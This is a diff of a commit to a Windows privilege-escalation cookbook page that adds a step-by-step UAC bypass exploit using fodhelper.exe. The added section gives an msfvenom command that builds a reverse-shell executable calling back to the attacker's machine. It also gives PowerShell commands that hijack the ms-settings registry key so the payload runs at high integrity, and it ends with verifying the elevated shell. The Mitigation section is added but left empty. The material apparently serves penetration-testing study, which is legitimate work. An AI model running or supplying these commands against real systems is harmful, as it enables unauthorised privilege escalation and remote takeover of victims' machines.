

Before and after one commit to nickvourd/Windows-Local-Privilege-Escalation-Cookbook, a Markdown page: Notes/UACBypass.md, the part around the change printed below. Shown: that part at 80% size. GitHub-like rendering; pictures changed too: Pictures/UAC-Exploitation-1.png (added), Pictures/UAC-Exploitation-2.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Added UAC Bypass

````diff
--- a/Notes/UACBypass.md
+++ b/Notes/UACBypass.md
@@ -104,6 +105,54 @@ Outcome:
 
 ## Exploitation
 
+:information_source: This case study leverages a UAC384 bypass that abuses the `Fodhelper.exe` application.
+
+To abuse this scenario you should follow these steps:
+
+1)  Use msfvenom to generate a malicious executable (exe) file:
+
+```
+msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > nikos.exe
+```
+
+2) Transfer the malicious executable file to victim's machine.
+
+3) Open a listener on your Kali machine.
+
+4) Create with the following PowerShell command a new registry key:
+
+```
+New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force
+```
+
+5) Create a new registry entry named "DelegateExecute" under the specified registry path with an empty string as the value:
+
+```
+New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
+```
+
+6) Modify the default command which executed when the specified registry key is triggered:
+
+```
+Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(default)" -Value "powershell -exec bypass -c C:\<full_path>\<binary.exe>" -Force
+```
+
+Outcome:
+
+![UAC-Exploitation-1](/Pictures/UAC-Exploitation-1.png)
+
+7) Execute the `fodhelper.exe`:
+
+```
+C:\Windows\System32\fodhelper.exe
+```
+
+8) Verify the new reverse shell from your attacking machine with High Integrity:
+
+![UAC-Exploitation-2](/Pictures/UAC-Exploitation-2.png)
+
+## Mitigation
+
 ## References
 
 - [Integrity Levels by HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)
````
Also changed, not shown: other parts of Notes/UACBypass.md (+1 -0 lines), 1 other file.
